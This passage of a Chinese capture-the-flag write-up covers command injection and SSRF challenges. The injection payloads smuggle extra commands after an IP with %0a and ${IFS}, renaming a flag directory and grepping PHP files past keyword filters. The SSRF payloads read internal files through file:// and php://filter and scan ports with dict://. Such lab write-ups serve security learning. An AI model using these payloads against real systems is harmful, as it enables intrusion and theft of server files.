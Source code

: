 ```php
127.0.0.1%0amv${IFS}fla*${IFS}fff%0als${IFS}-R #将文件夹flag改名为fff
```

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751700369322-2a9eb196-7b52-4362-974a-78dd1da784e4.png)

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751700794457-0dedf781-ed24-42ed-afad-9347394211ed.png)

flag文件无权限改名

```php
127.0.0.1%0acd${IFS}fff%0agrep${IFS}"ctf"${IFS}*.php #使用grep搜索*.php文件避开关键字
```

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751701153149-7b9df7f7-1cb4-4d85-9f71-7c6adde6ec77.png)

## 七、SSRF
### 内网访问
访问`[http://127.0.0.1/flag.php](http://127.0.0.1/flag.php)`

### 伪协议读取文件
```html
http://127.0.0.1/flag.php
```

读取到？？？说明文件存在

```html
php://filter/read=convert.base64-encode/resource=http://127.0.0.1/flag.php
#都失败，尝试file 以绝对路径读取
file:///var/www/html/flag.php
# 成功读取
```

### 端口扫描
```html
dict://127.0.0.1:8080
```

bp抓包设置payload

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751701819620-2cb2fa6c-076b-4102-8eb1-b1205750c35b.png)

8586有报错响应

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751701858196-ba0dc635-69ce-4607-9b82-3dc3bc721639.png)

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751701869843-362bdad8-1740-4855-9f83-b63ef07482a1.png)

### POST请求
`http://127.0.0.1/flag.php`

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751706890582-1f43faac-704a-48f2-ab18-7860dbc12f83.png)
